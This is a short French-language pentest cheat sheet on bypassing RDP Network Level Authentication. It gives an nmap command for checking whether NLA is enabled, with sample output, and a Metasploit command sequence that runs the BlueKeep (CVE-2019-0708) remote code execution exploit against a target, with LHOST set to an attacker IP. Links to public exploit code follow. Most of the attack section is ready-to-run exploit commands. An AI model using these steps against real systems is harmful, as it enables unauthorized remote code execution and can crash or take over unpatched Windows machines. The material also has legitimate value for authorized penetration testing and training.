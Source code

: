 # RDP NLA Bypass (Network Level Authentication)

## Objectif
Exploiter l'absence ou la mauvaise configuration de la NLA sur RDP pour obtenir un accès non autorisé ou contourner l'authentification.

---

## Explications vulgarisées
- NLA (Network Level Authentication) est une protection sur RDP. Si elle est désactivée ou mal configurée, un attaquant peut exploiter des failles (ex : BlueKeep) ou contourner l'authentification.

---

## Commandes et étapes essentielles

### 1. Vérification de la configuration NLA
```bash
nmap -p 3389 --script rdp-enum-encryption target.com
```
- **rdp-enum-encryption** : Indique si NLA est activée ou non.
- **Exemple de sortie** :
```
| rdp-enum-encryption: 
|   Security layer: RDP
|   Encryption level: High
|   NLA: not supported
```
- **À surveiller** : "NLA: not supported" = vulnérable.

### 2. Exploitation de failles connues (ex : BlueKeep)
- Utiliser Metasploit ou des scripts publics pour exploiter la faille (ex : exploit/windows/rdp/cve_2019_0708_bluekeep_rce).
- Exemple :
```bash
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target.com
set LHOST attacker_ip
run
```

---

## Conseils pour débutants
- Toujours vérifier si NLA est activée avant de lancer un exploit RDP.
- Travailler sur des environnements de lab, jamais en production sans autorisation.
- Attention aux crashs ou blue screens sur les cibles vulnérables.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - RDP Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/RDP%20Methodology)
- [BlueKeep Exploit](https://github.com/zerosum0x0/CVE-2019-0708)
- [Metasploit BlueKeep](https://www.rapid7.com/db/modules/exploit/windows/rdp/cve_2019_0708_bluekeep_rce/) 